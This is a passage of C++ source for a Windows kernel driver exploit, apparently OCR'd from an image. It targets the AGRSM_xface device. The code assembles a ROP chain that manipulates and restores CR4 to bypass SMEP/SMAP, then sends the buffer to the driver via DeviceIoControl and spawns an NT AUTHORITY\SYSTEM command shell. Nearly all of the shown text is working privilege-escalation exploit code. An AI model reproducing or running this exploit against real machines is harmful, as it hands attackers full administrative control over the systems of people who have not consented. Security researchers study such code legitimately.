 ``` c++
    printf("[+] MOV RCX; CR4; ret; \n");

    printf("[+] Executing ROP chain to restore CR4. \n");
    printf("[+] POP RCX; ret; \n");
    memcpy(&buf[216 + 32], &ROP4, gadgetSize);
    memcpy(&buf[216 + 40], &ROP5, gadgetSize);

    printf("[+] MOV RCX; CR4; ret; \n");
    printf("[+] SMEP / SMAP restored ! \n");
    memcpy(&buf[216 + 48], &ROP6, gadgetSize);

    printf("[+] Get handle to the driver \n");
    
    char *driver = const_cast < char*>("\\\\.\\GlobalRoot\\device\\AGRSM_xface");

    HANDLE drvHandle = CreateFileA(
        driver,
        0xC0000000,
        0x0,
        NULL,
        0x3,
        0x0,
        NULL
    );

    printf("[+] Driver handle %s: %d\n", driver, drvHandle);

    // Send exploit to the driver

    DWORD lpBytesReturned;

    printf("[+] Send payload to driver...\n");
    getchar();
    BOOL status = DeviceIoControl(
        drvHandle,
        IOCTL_CODE,
        buf,
        sizeof(buf),
        NULL,
        0,
        &lpBytesReturned,
        NULL
    );
}

int main(int argc, char* argv[])
{
    exploit();
    
    printf("[+] Spawning SYSTEM shell!\n");
    // Spawning an NT AUTHORITY\SYSTEM shell
    system("cmd.exe /c cmd.exe /K cd C:\\");
    
    return 0;
}
```
